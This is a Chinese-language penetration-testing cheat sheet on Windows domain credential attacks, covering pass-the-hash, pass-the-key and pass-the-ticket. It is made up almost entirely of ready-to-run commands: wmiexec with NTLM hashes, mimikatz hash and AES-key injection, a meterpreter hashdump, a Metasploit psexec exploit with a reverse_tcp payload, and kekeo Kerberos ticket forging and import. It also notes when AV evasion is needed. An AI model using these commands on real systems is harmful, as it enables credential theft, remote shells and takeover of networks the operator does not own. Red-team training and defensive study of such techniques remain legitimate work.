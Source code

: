 > domain=TEST user=test1
>
> wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami"

需要管理权限

> mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash" 

> meterpreter > run post/windows/gather/hashdump
>
> meterpreter > background

> msf > use exploit/windows/smb/psexec
>
> msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
>
> msf exploit(psexec) > set SMBuser Administrator
>
> msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
>
> msf exploit(psexec) > exploit
>
> meterpreter > shell

安装了 KB2871997 补丁或者系统版本大于等于 windows server 2012 时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以使用，schtasks 等执行命令无法用管理员权限。2.用 ptk，ptt。例外，打补丁后 administrato（SID-500） 依旧可以pth

> https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/

### pass the key

需要免杀：

> mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
>
> mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
>
> dir \\\计算机名

### pass the ticket

不需要管理员权限

> kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash"

导入ticket：

> kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"

程序地址：

> https://github.com/gentilkiwi/kekeo

